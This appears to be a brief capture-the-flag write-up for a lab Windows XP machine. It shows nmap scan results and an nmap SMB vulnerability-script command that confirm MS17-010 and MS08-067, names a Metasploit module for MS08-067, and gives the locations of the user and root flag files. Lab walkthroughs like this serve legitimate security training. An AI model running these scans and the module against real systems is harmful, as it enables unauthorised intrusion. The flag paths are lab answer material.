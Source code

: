 nmap scan:

```
135/tcp open  msrpc?
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
```

Check smb vuln

```
sudo nmap -p445 --script="smb-vuln-*" 10.10.10.4
```

Confirmed vulnerable to ms17-010 and ms08-067

```
smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

```
smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
```

Use this metasploit module:

```
windows/smb/ms08_067_netapi
```

The user flag is at `C:\Documents and Settings\john\Desktop\user.txt` and the root flag is at `C:\Documents and Settings\Administrator\Desktop\root.txt`